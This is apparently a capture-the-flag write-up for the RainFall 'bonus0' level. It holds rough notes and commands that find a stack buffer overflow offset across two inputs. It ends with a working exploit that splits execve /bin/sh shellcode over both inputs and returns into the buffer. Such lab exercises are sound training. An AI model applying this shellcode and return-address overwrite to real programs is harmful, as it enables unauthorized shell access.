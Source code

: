 Here is our shellcode (size 24)

```
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80
```

### Payload

0xbffff71c --> address of v3 --> \x1c\xf7\xff\xbf

```bash
(python -c 'print ("A" * 20)'; cat) | ./bonus0
```

````bash
(python -c 'print "A" * 20'; python -c 'print "B" * 19')  | ./bonus0```

```bash
(python -c 'print "A" * 20'; python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80\x1c\xf7\xff\xbf"')  | ./bonus0
````

LOG pour find segfault

```bash
bonus0@RainFall:~$ (python -c 'print "A" * 20'; python -c 'print "B" * 17')  | ./bonus0
 -
 -
AAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBB BBBBBBBBBBBBBBBBB
Segmentation fault (core dumped)
bonus0@RainFall:~$ (python -c 'print "A" * 20'; python -c 'print "B" * 16')  | ./bonus0
 -
 -
AAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBB BBBBBBBBBBBBBBBB
```

```
Wrong Payload
20 chars de payload
+ 16 chars de payload
+ overwrite return addresse --> jump vers debut de buffer (start of payload)
```

input1: 19 A || input2: 1B
--> AAAAAAAAAAAAAAAAAAA B
19 A | 1B

intput1 : 20 A || input2: 1 B
--> AAAAAAAAAAAAAAAAAAAAB B
20 A + 1B | 1B

input1: 20A || input2 : 5 B
--> AAAAAAAAAAAAAAAAAAAABBBBB BBBBB
20 A + 5B | 5B

```
input 1 = AAAAAAAAAAAAAAAAAAAA (20 CHARS)
input 2 = BBBBBBBBBBBBBBBB	(16 CHARS)		OK
--> AAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBB BBBBBBBBBBBBBBBB	(55 chars total)

input 2 = BBBBBBBBBBBBBBBBB	(17 CHARS)		SEGFAULT
--> AAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBB BBBBBBBBBBBBBBBBB	(55 chars total)
```

```bash
(python -c 'print "A" * 20'; python -c 'print "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A"')  | ./bonus0
```

```
segfault
0x	41	33	61	41
	A	3	a	A
```

`offset to segfault at 20 CHARS dans input1 et 9 CHARS in input 2`

```bash
Payload
20 chars de payload (-> input 1)
+ 9 chars de payload (-> input 2)
+ adress to start of payload (address of buffer in main)
+ ballec du reste?
```

```bash
SHELLCODE
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80
```

```buffer
20 chars de
AAAAAAAAAAAAAAAAAAAABBBBBBBBBB BBBBBBBBBB
AAAAAAAAAAAAAAAAAAAABBBBBBBBBBB BBBBBBBBBBB
AAAAAAAAAAAAAAAAAAAABBBBBBBBBBBB BBBBBBBBBBBB
AAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBB BBBBBBBBBBBBBBB
```

---

## NEW PAYLAOD

```bash
input 1 = AAAAAAAAAAAAAAAAAAAA	(20 CHARS)

input 2 = BBBBBBBBBBBBBBBB		(16 CHARS)		OK
--> AAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBB BBBBBBBBBBBBBBBB		(55 chars total)

input 2 = BBBBBBBBBBBBBBBBB		(17 CHARS)		SEGFAULT
--> AAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBB BBBBBBBBBBBBBBBBB		(55 chars total)
eip            0xb7e40042	0xb7e40042

input 2 = BBBBBBBBBBBBBBBBBB	(18 CHARS)		SEGFAULT
--> AAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBB BBBBBBBBBBBBBBBBBB	(57 chars total)
eip            0x00424242	0x00424242

input 2 = BBBBBBBBBBBBBBBBBBB	(19 CHARS)		SEGFAULT
--> AAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBB BBBBBBBBBBBBBBBBBBB	(59 chars total)
eip            0x42424242	0x42424242

input 2 = BBBBBBBBBBCDEFGHIJK	(19 CHARS)		SEGFAULT
--> AAAAAAAAAAAAAAAAAAAABBBBBBBBBBCDEFGHIJK BBBBBBBBBBCDEFGHIJK	(59 chars total)
eip            0x4a494847	0x4a494847
4a	49	48	47
J	I	H	G

input 2 = 14 CHARS + EIP (4 chars) + 1 CHAR trash
input 1 = 20 CHARS

BUFFER = 
input 1 (20 chars)
+ input 2 ( 19 )
+ espace
+ input 2 (19)

BUFFER =

20 chars unique
+ 14 chars
+ EIP (4 chars)
+ 1 char trash
+ espace
+ 14 chars
+ EIP (4 chars) //celui la overflow
+ 1 char trash

PAYLOAD = 
input 1 = 20er char du shellcode
input 2 = 3 characters du shellcode + 11 trash + EIP (jump == 4 chars) + 1 trash

SHELLCODE


PAYLOAD
input 1 = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0"
input 2 = "\x0b\xcd\x80" + 11 * "A" + "\x06\xf7\xff\xbf" + "A"
input 2 = 
```

address of start of buffer: `0xbffff706` = `\x06\xf7\xff\xbf`

```bash
(python -c 'print ("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0")'; python -c 'print ("\x0b\xcd\x80" + 11 * "A" + "\x06\xf7\xff\xbf" + "A")'; cat)  | ./bonus0
```
